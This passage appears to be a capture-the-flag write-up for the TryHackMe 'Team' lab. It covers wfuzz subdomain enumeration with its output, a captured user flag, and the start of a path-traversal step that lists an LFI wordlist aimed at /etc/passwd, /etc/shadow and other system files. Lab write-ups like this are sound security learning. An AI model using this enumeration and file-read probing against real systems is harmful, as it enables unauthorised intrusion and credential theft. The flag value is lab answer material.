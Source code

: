 - **wfuzz**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/Team]
└─$ wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://team.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        89 L     220 W      2966 Ch     "www"
000000019:   200        9 L      20 W       187 Ch      "dev"
000000085:   200        9 L      20 W       187 Ch      "www.dev"
000000689:   400        12 L     53 W       422 Ch      "gc._msdcs"

Total time: 103.9202
Processed Requests: 4989
Filtered Requests: 4985
Requests/sec.: 48.00796

┌──(bc-here㉿BC-Here)-[~/CTF/THM/Team]
└─$ ping dev.team.thm
PING team.thm (10.10.253.175) 56(84) bytes of data.
```
- I have added dev.team.thm to the `/etc/hosts`

![image](https://github.com/user-attachments/assets/d5d7cdeb-bbbf-4246-a125-276de98a8701)

![image-1](https://github.com/user-attachments/assets/29754d6c-b0b8-45dd-936f-30a86ef60b58)

![image-2](https://github.com/user-attachments/assets/2c63bf46-7237-480d-bade-67cead06bf1f)

- Lets analyse with burpsuite! 😎😎😎

![image-3](https://github.com/user-attachments/assets/b74fb301-e16d-4fd7-8554-ca2e941778ea)

- Got the user.txt!


##### user.txt:`THM{6Y0TXHz7c2d}`

- **Path Traversal**

- Using LFI list of Seclist
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/Team]
└─$ cat /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

/etc/passwd
/etc/shadow
/etc/aliases
/etc/anacrontab
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/at.allow
/etc/at.deny
/etc/bashrc
/etc/bootptab
.....

```